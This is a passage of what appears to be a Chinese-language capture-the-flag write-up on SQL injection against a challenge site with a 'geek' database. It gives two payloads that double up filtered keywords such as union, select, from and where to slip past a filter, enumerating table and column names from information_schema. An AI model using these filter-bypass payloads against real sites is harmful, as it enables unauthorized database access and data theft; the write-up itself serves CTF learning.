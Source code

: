 <img width="712" height="297" src="../_resources/watermark_type_ZmFuZ3poZW5naGVpd_97dd053992e44bf19.png"/>  
再下来是表名，经测试frominfor中的or以及where等字符被过滤了，payload如下：

```
`ununionion seselectlect 1,2,group_concat(table_name)frfromom infoorrmation_schema.tables whwhereere table_schema='geek'%23`

- 1

```

<img width="712" height="303" src="../_resources/watermark_type_ZmFuZ3poZW5naGVpd_fa03e626096e4b12b.png"/>  
再是字段名，payload如下：

```
`' ununionion seselectlect 1,2,group_concat(column_name)frfromom infoorrmation_schema.columns whwhereere table_schema='geek' anandd table_name='b4bsql'%23`

- 1

```
